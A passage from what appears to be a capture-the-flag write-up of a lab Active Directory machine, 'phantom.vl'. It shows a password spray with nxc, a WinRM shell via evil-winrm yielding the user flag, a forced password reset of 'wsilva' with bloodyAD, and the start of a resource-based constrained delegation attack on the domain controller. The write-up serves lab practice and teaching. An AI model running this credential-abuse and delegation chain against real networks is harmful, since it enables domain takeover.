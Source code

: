 #### Pivoting with New Credentials

The discovered password `gB6XTcqVP5MlP7Rc` was sprayed against the user list, yielding a hit on our HVT.

*   **Command**:
    ```zsh
    nxc smb 10.129.234.63 -u ridusers -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
    ```
*   **Output Snippet**:
    ```zsh
    <SNIP>
    [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc
    <SNIP>
    ```

#### Obtaining User Flag

As `svc_sspr` is a member of `REMOTE MANAGEMENT USERS`, a WinRM shell was established.

*   **Command**:
    ```zsh
    evil-winrm -i phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc
    ```
*   **Result**:
    ```zsh
    *Evil-WinRM* PS C:\Users\svc_sspr\Desktop> cat user.txt
    5c66a7ab1971f8793c86676296abbb8d
    ```
The user flag was successfully obtained.

---
### Lateral Movement and Impact

The previously identified attack path via RBCD was now executed to achieve domain compromise.

**1. Take Control of `wsilva`**

The `ForceChangePassword` privilege was used to reset the password for `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u svc_sspr -p gB6XTcqVP5MlP7Rc --host 10.129.234.63 set password wsilva Summer2025
    ```

**2. Configure RBCD**

With control over `wsilva` (who has `AddAllowedToAct` rights), the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the Domain Controller (`DC$`) was modified to include `wsilva`.

*   **Command**:
    ```zsh
    bloodyAD -d phantom.vl -u wsilva -p Summer2025 --host 10.129.234.63 add rbcd DC$ wsilva
    ```
